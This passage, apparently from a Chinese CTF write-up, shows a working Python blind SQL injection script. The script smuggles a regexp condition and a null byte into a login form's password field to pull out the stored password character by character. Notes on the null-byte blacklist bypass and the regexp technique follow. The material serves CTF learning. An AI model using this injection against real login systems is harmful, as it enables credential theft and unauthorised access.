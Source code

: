       payload = ''
      for n in range(100):
      	print(n)
      	for i in str_list:
      		data = {'username':'\\', 'passwd':'||passwd/**/regexp/**/"^{}";{}'.format(payload+i,chr(0))}
      		res = requests.post(url = url, data = data)
      		if 'welcome.php' in res.text:
      			payload += i
      			print(payload.lower())
      			break
      		elif res.status_code == 429:
      			time.sleep(1)
      ```

   8. 上面脚本会跑出passwd，但这里有个坑就是用户名不能是admin，密码需要全部转换成小写，再登录即可获取flag。
   9. 疑惑点：%00的问题
      1. 题目提示的黑名单中有%00，而使用bp时passwd参数末尾加上%00能注入成功
      2. 脚本中的%00，用chr(0)替代，或者使用\x00（？）



## 总结

- 本题的大致思路和[BJDCTF 2nd简单注入.md]([BJDCTF%202nd]简单注入.md)一致，唯一区别在于本题的**regexp注入**，是一个可以学习的点。后面的刷题过程也需要注重积累这种思想。
- 本题%00的问题。